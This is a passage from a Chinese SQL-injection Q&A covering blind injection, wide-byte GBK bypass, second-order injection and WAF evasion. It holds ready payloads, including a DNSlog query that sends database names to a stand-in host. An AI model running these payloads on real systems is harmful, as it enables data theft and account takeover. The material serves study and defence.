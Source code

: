 ```
select * from ctf_test where user='1' and 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C)
```

RLIKE盲注：

```
select * from flag where flag='1' and if(mid(user(),1,1)='r',concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+cd',1)
```

## 4.什么是宽字节注入？如何操作？

**宽字节注入：**

> 当php开启gpc或者使用addslashes函数时，单引号`'`被加上反斜杠`\'`，其中`\`的URL编码为`%5C`，我们传入`%df'`，等价于`%df%5C'`，此时若程序的默认字符集是GBK，mysql用GBK编码时会认为`%df%5C`是一个宽字符`縗`，于是`%df%5C'`便等价于`縗'`，产生注入。

**操作：**

```
id=1%df' and 1=2 union select 1,2,user(),4 %23
```

## 5.怎样进行盲注速度更快？

**DNSlog盲注：**

```
id=1' and load_file(concat('\\\\',(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),'.your-dnslog.com\\cHr1s'))--+
```

## 6.什么是二次注入？

> 参数传入的恶意数据在传入时被转义，但是在数据库处理时又被还原并存储在数据库中，导致二次注入。

举例：

> 注册用户名`admin'#`用户，传入值为`admin\'#`，但是在存储数据库时值变为`admin'#`，此时若修改密码为`123456`，管理员`admin`密码就被修改为`123456`

## 7.sql注入常见的过WAF方法？

> 内联注释绕过  
> 填充大量脏数据绕过  
> 垃圾参数填充绕过  
> 改变提交方式绕过，如GET方式变为POST方式提交  
> 随机agent头绕过  
> fuzz过滤函数，函数替换绕过

## 8.sqlmap如何编写tamper？
